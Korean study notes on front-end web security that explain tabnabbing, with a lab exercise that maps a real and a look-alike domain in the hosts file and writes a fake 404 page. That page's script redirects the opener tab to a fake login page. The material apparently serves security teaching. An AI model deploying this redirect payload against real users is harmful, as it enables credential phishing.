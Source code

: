 ##### 웹 보안(우리는 front보안을 말함)

* 서버 관리 측면 x



*****



###### 1. tabnabbing

* 이벤트 핸들러를 피싱페이지로 가게 함

  ```html
  <video>
      <source onerror="...window.location='FAKE_PAGE'..."></source>
  </video>
  <!-- 새 창이 뜬 사이에 원래 페이지가 페이크 페이지로 바뀐다" -->
  <!-- 비디오로 사용자의 주의를 돌림 -->
  
  <a ...target="_blank"></a>	<!-- 여기서 열면 위의 비디오가 재생된다 -->
  ```

  



*****



###### 실습

1. C:\Windows\System32\drivers\etc\hosts 파일을 관리자 권한으로 메모장에서 열어 다음과 유사하게 추가한다.(자기 IP를 넣어야 됨)

   ```text
   192.168.0.100 openeg.com	원래 사이트
   192.168.0.100 openeq.com	해커의 사이트
   192.168.0.100 insecure.com	파트너 사이트
   
   openeg.com:8181/openeg/login.do 하면 들어갈 수 있음(서버 가동 후)
   ```

   

   

2. 해커머신(이클립스 openeg프로젝트>WebContent>tabnabbing>hacker 를 해커 머쉰으로 가정한다 )에서 404.html을 다음과 같이 작성한다

   ```html
   <!DOCTYPE html>
   <html>
       <head>
           <meta charset="utf-8"><title>Insert title here</title>
       </head>
       <body>
           <h1>404 잘못된 페이지입니다</h1>
           <script>	
           	if(window.opener){		opener.location='http://openeq.com:8181/openeg/tabnabbing/hacker/fakeLogin.html';	}else{		document.querySelector("h1").innerHTML='The previous tab is safe and intact...';	}
           </script>
       </body>
   </html>
   ```
